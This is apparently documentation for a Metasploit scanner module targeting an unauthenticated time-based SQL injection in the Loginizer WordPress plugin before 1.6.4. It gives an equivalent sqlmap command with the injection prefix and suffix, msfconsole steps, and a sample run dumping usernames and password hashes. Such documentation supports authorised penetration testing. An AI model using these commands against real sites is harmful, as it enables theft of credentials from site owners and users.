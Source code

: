 ## Vulnerable Application

Loginizer wordpress plugin contains an unauthenticated timebased SQL injection in
versions before 1.6.4.  The vulnerable parameter is in the `log` parameter.

Exploitation requires Wordpress after [a87271af60113d46ab3866b1e525a1817bce742d](https://github.com/WordPress/WordPress/commit/a87271af60113d46ab3866b1e525a1817bce742d#diff-05003928101dd60650a6864173792d6fbaaccbd26820d99dbcfff47c5f61322e)

* 5.4 or newer
* 5.5 or newer

Attempts to exploit non-vulnerable versions will likely cause loginizer's blacklist to ban the metasploit IP.

Wordpress has forced updates of the plugin to all servers.  To test this exploit, the server
must not have a connection to the internet.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/loginizer/advanced/)
or [1.6.3](https://downloads.wordpress.org/plugin/loginizer.1.6.3.zip)

This module slightly replicates sqlmap running as:

```
python3 sqlmap.py -u http://local.target/wp-login.php --method='POST' --data='log=&pwd=password&wp-submit=Log+In&redirect_to=&testcookie=1' -p log --prefix="', ip = LEFT(UUID(), 8), url = ( TRUE " --suffix=") -- wpdeeply" --dbms mysql --technique=T --time-sec=1 --current-db
```

## Verification Steps

1. Disconnect the server from the internet
1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_loginizer_log_sqli`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Loginizer 1.6.3 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
resource (loginizer.rb)> use auxiliary/scanner/http/wp_loginizer_log_sqli
resource (loginizer.rb)> set verbose true
verbose => true
resource (loginizer.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > run

[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version detected
[*] {SQLi} Executing (select group_concat(XMjgCKOLn) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) XMjgCKOLn from wp_users limit 3) ZtmrJNCuJ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
